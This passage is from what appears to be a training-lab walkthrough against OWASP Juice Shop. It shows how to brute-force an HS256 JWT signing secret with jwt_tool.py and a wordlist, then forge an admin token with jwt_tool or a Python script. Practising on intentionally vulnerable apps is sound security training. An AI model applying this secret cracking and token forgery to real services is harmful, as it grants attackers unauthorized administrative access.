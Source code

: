 Since the algorithm is `HS256`, the token is signed using a shared secret. The goal is to **brute-force this secret**.

---

### 🔹 3. Crack the Secret Key

Use `jwt_tool.py` or a Python script with a wordlist to brute-force the signing secret:

#### 🔸 Using `jwt_tool.py`

```bash
python3 jwt_tool.py <TOKEN> -C -d /usr/share/wordlists/rockyou.txt
```

* `-C`: Crack mode
* `-d`: Dictionary/wordlist path

If successful:

```bash
[*] Secret found: 'admin'
```

---

### 🔹 4. Modify and Forge New Token

Generate a new token with elevated privileges:

#### 🔸 Edit Payload

```json
{
  "email": "admin@juice-sh.op",
  "role": "admin"
}
```

#### 🔸 Sign New Token

Using `jwt_tool.py`:

```bash
python3 jwt_tool.py <TOKEN> -S admin -I
```

Or with Python:

```python
import jwt

secret = "admin"
payload = {
  "email": "admin@juice-sh.op",
  "role": "admin"
}
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

---